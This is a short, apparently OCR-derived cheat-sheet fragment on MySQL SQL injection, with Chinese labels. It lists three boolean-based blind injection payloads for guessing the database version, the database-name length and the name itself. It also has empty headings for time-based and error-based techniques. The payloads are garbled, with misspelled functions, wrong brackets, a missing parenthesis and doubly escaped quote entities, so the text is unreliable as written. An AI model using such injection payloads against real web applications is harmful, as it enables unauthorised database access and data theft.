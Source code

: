 ### SQL inject Mysql {#sql-inject-mysql}

盲注：

1.boolenBased

1.1\.        1&amp;apos; and 1=1 and left(vserion{},1)=5 and &amp;apos;1&amp;apos;=&amp;apos;1        #数据库版本猜解

1.2\.        1&amp;apos; and 1=1 and length(database[])=4 and &amp;apos;1&amp;apos;=&amp;apos;1     #数据库名的长度猜解

1.3\.        1&amp;apos; and 1=1 and left(database[],1=&amp;apos;a&amp;apos; and &amp;apos;1&amp;apos;=&amp;apos;1       #数据库名猜解

2.timeBased

3.ErrotBased